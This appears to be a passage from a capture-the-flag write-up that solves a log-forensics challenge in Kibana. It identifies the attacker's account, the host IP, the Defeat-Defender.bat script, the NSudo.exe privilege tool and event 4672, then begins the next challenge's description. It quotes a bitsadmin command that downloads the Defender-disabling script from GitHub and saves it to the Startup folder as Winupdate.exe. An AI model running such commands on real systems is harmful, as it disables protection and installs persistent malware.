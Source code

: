 We can get this from the related.user field: **malware_attacker**

* We need the IP of the compromised machine (Points: 50)

The host.ip field contains this information: **192.168.0.108**

* The attackers managed to execute some malicious scripts without being detected by our security systems. Can you determine which program was executed? (Points: 50)

We can use Lucene to do wildcard searches, searching for common windows script extensions (.ps, .bat) we get the following CommandLine: C:\Windows\system32\cmd.exe /c ""C:\Users\plant\OneDrive\Desktop\stuff-i-want\Defeat-Defender.bat" so the flag is: **Defeat-Defender.bat**

* What system management tool did the attacker use in order to launch its program with full privileges? (Points: 50)

While looking at the different processes that were executed we notice a strange one that is similar to the linux sudo binary: **NSudo.exe**

* We know that the attacker managed to download an infected executable using a Windows utility. We need that name, please. (Points: 50)

While exploring on how NSudo.exe was downloaded we discover that bitsadmin.exe was used to download files, while looking at all bitadmin executed commands we notice `bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/swagkarna/Defeat-Defender-V1.2/main/Defeat-Defender.bat "C:\Users\plant\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Winupdate.exe"` that a file was saved as: **Winupdate.exe**

* The attacker managed to give full privileges to his account. We need the code of the event triggered by this action. (Points: 50)

We can use Kibana to list all winlog.event_id then we can search online to get more information about them, we notice that 4672 is *Special privileges assigned to new logon* so the flag is: **4672**

<a name="ok"></a>
# Ok! - 33 solves

Description:

```
Our computer performance was altered by a malicious individual. We have managed to make a copy of the altered computer and we need immediately to obtain some answers regarding this file. Due to the stressful situation, one of our colleagues managed to write just a single word in his notebook:

Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook. Ook? Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook! Ook! Ook? Ook! Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook! Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook.

Your input is needed on the following aspects and you should remember that wecracktheworlds is an important key in this process.

Files are available at the following links:

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.000

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.001

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.002
```
